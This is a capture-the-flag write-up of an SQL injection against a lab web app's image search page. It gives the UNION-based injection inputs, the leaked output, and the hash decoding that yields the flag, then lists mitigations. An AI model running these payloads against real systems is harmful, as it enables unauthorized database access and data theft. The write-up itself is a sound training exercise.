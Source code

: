 # SQL Injection

On the page `http://192.168.56.2/?page=searchimg`, we can write SQL command in the input field to get access to what is store in the database.

Making those commands will get us the flag.

```sql
1 or TRUE
1 UNION select table_schema,table_name FROM information_Schema.tables
1 UNION select comment, title FROM list_images
```
 The last command gives us this result: 

```
ID: 1 UNION select comment, title FROM list_images. 
Title: Hack me ?  
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

The word behind this md5 is **albatroz**. The sha256 of it gives us the flag.

** FLAG: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**
 
## DESCRIPTION

SQL Injection occurs when an attacker is able to manipulate a SQL query by injecting malicious SQL code into an input field, which the application then executes. This can lead to unauthorized access to the database, data leakage, data manipulation, and other serious security issues.

## PATCH

1.  **Input Validation**: Validate user inputs to ensure they conform to expected formats before processing them.
    
2.  **Least Privilege Principle**: Ensure the database user account used by your application has the minimum privileges necessary to perform its tasks.
    
3.  **Stored Procedures**: Use stored procedures to handle database operations, which can help prevent some types of SQL Injection attacks.
    
4.  **Web Application Firewalls (WAF)**: Deploy a WAF to detect and block SQL Injection attempts.

## DOC

- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)